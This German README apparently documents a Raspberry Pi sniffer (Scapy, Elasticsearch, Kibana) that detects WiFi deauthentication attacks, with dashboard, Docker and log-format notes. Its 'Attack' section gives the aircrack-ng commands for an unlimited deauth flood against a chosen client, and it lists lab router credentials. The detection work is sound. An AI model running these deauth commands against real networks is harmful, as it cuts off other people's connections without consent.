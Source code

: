 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
## Monitor Mode starten
`airmon-ng start wlan0`

## MAC-Adressen von AP und Target herausfinden
`airodump-ng wlan0`

## Senden von Deauth-Packets
`aireplay-ng -0 0 -a <AP-MAC> -c <Target(Client)-MAC> wlan0`

# Log-File
New-line getrennte JSON-Objekte mit der Form:
`{'timestamp': 1682011162.6059976, 'reciever': 'aa:bb:cc:11:22:33', 'source': 'aa:bb:cc:11:22:34', 'bssid': 'aa:bb:cc:11:22:35', 'attack_uuid': UUID('75d183a8-7861-4c6e-9e03-37ddbb3156ca')}`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
Interface als Environment übergeben.

`docker run --privileged -it --network host --env IFACE=wlan0 pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose (wenn Image gebuildet wurde)

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Run

`docker compose up -d`

## Open shell

`docker exec -it pinkfluff /bin/bash`
